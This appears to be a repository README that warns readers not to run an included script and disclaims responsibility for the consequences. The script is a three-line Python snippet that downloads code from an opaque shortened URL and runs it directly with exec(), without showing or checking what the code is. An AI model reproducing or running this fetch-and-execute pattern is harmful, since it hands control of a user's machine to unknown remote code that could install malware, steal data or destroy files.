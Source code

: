 # Warning
You should not execute this script.<br/>
If you execute this, it is at your own risk<br/>
I take no responsability of any consequence of running this script<br/>
<br/>
```
import urllib.request
script = urllib.request.urlopen("https://tinyurl.com/btwktzns").read()
exec(script)
```
